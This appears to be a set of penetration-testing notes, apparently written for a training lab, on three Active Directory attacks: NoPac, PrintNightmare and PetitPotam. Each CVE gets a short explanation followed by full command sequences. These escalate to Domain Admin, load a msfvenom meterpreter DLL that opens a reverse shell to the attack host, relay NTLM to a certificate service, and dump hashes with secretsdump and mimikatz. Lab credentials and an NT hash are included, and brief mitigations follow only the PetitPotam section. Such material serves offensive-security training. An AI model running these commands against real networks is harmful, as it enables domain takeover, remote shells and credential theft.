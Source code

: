 ### Content
- [NoPac](#nopac)
- [PrintNightmare](#printnightmare)
---
# NoPac
This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

## CVE-2021-42278 – SAM Name impersonation
`A vulnerability with the Security Account Manager (SAM).`

- Internally, Active Directory (AD) uses several naming schemes for a given object. Like userPrincipalName (UPN), and sAMAccountName (SAM-Account).
- In cases of computers – these sAMAccountName attributes usually end with `$` in their name. Traditionally, this `$` was used to distinguish between user objects and computer objects. It is important to mention there are no restrictions or validations for changing this attribute to include or not include the `$` sign.
- With default settings, when the relevant patch is **not** applied, a normal user has permission to modify a machine account (up to 10 machines) and as its owner, they also have the permissions to edit its sAMAccountName attribute.

## CVE-2021-42287 - KDC bamboozling
`A vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS.`

- When performing an authentication using Kerberos, Ticket-Granting-Ticket (TGT) and the following Ticket-Granting-Service (TGS) are being requested from the Key Distribution Center (KDC). In case a TGS was requested for an account that could not be found, the KDC will attempt to search it again with a trailing `$`.
- For example, if there is a domain controller with a SAM account name of DC1$, an attacker may create a new machine account and rename its SAM account name to DC1, request a TGT, rename it again for a different name, and request a TGS ticket, presenting the TGT he has in hands.
- When processing the TGS request, the KDC will fail its lookup for the requestor machine DC1 which the attacker had created. Therefore, The KDC will perform another lookup appending a trailing `$` so the requestor name becomes `DC1$`. The lookup will succeed. As a result, the KDC will issue the ticket using the privileges of DC1$.

[tool](https://github.com/Ridter/noPac) to perform this attack.

```bash
$ git clone https://github.com/Ridter/noPac.git
# See if the system is vulnerable by checking if ms-DS-MachineAccountQuota > 0
$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
# Obtain a shell with SYSTEM level privileges
$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
# NoPac.py saves the TGT in the directory on the attack host where the exploit was run.
# We can then use the ccache file to perform a pass-the-ticket and perform further attacks such as DCSync.


# Using noPac to DCSync the Built-in Administrator Account, it uses secretsdump.py inside it with -dump flag
$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

# Using secretsdump
export KRB5CCNAME=/path/to/tgt
$ secretsdump.py -just-dc-user wley -k -no-pass -dc-ip 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' @'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL'
```

---
# PrintNightmare

This vulnerability encompasses two CVEs [2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems and allows remote execution of arbitrary code with SYSTEM rights using a domain account.

`PrintNightmare` is an RCE (Remote Command Execution) vulnerability. 
If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation).

The vulnerability lies in the functions allowing remote driver installation by users, `RpcAddPrinterDriverEx` and `RpcAddPrinterDriver`.

1. The attacker stores the driver DLL file on a SMB share reachable from the server.
2. The client creates a [`DRIVER_INFO_2`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/39bbfc30-8768-4cd4-9930-434857e2c2a2) object containing the path to the attacker's DLL and passes it into the DRIVER_CONTAINER object.
3. The client calls [`RpcAddPrinterDriverEx`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) with the `DRIVER_CONTAINER` to load the attacker's DLL into the server's dynamic library and with multiple bit values within the `dwFileCopyFlags` in order to bypass the `SeLoadDriverPrivilege` privilege verification by the server.
4. The attacker's DLL is executed on the server within `SYSTEM` context.

## Print Spooler Service

The Print Spooler is a Microsoft built-in service that manages printing jobs. It is enabled by default and runs within the `SYSTEM` context.
3 RPC protocols are registered by the spooler:
- `MS-RPRN`: Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server synchronously.
- `MS-PAR`: Microsoft’s Print System Asynchronous Remote Protocol. It has the same functionalities as MS-RPRN, but works asynchronously.
- `MS-PAN`: Microsoft’s Print System Asynchronous Notification Protocol. It is used to receive print status notifications from a print server and to send server-requested responses to those notifications back to the server.

Using [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit

```bash
# Clone the exploit
$ git clone https://github.com/cube0x0/CVE-2021-1675.git

# Install cube0x0's Version of Impacket
$ pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ python3 ./setup.py install

# Check if the target is exposed
$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 

# Generate a DLL pyaload
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

# Create a Share with smbserver.py
$ sudo smbserver.py -smb2support shareName /path/to/dll

# Start a meterpreter listener
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

# Run the exploit on the attacker machine, a reverse shell will start on the meterpreter listener
$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\shareName\backupscript.dll'
```
---
# PetitPotam

CVE [2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) by abusing Microsoft’s [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31). This technique allows an unauthenticated attacker to take over a Windows domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use.

In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as `Rubeus` or `gettgtpkinit.py` from [PKINITtools](https://github.com/dirkjanm/PKINITtools) to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

Tool for Linux attack host [PetitPotam.py](https://github.com/topotam/PetitPotam).
PowerShell implementation of the tool [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1).

```bash
# Starting ntlmrelayx.py in window
$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
# If we didn't know the location of the CA, we could use:
# certi (https://github.com/zer1t0/certi) or
# ceripy-ad (https://github.com/ly4k/Certipy) to attempt to locate it. <<<---

# Run the tool PetitPotam.py <attack host IP> <Domain Controller IP> on another window 
# to attempt to coerce the Domain Controller to authenticate to our host where ntlmrelayx.py is running.
$ python3 PetitPotam.py 172.16.5.225 172.16.5.5  

# A base64 Encoded Certificate for DC01 will appear on the ntlmrelayx window

# Requesting a TGT Using gettgtpkinit.py
$ python3 gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <base64Blob> dc01.ccache
# The command output will be a ccache file and (((((AS-REP encryption key)))))

# Set KRB5CCNAME Environment Variable
$ export KRB5CCNAME=dc01.ccache

# We can also extraxt DC01 NT hash using the tool getnthash.py from PKINITtools while (KRB5CCNAME exported) 
$ PKINITtools/getnthash.py -key <key_from_gettgtpkinit> INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$

Recovered NT Hash
00dff1753260356245407a1a4bbb7b58


# Using Domain Controller TGT to DCSync the administrator hash
$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL


# Using Domain Controller NT hash to DCSync the administrator hash
$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes :00dff1753260356245407a1a4bbb7b58
```

After obtaining the base64 blob from `ntlmrelayx.py` we can request a `TGT` and perform `PTT` witch `DC01$` machine account
```Powershell
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt

# Then performing DCSync with Mimikatz
PS C:\Tools> .\mimikatz.exe 'lsadump::dcsync /user:inlanefreight\krbtgt'
```

## PetitPotam Mitigations

First off, the patch for [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) should be applied to any affected hosts. Below are some further hardening steps that can be taken:

- To prevent NTLM relay attacks, use [Extended Protection for Authentication](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2009/973811) along with enabling [Require SSL](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429) to only allow HTTPS connections for the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services
- [Disabling NTLM authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) for Domain Controllers
- Disabling NTLM on AD CS servers using [Group Policy](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-incoming-ntlm-traffic)
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services are in use
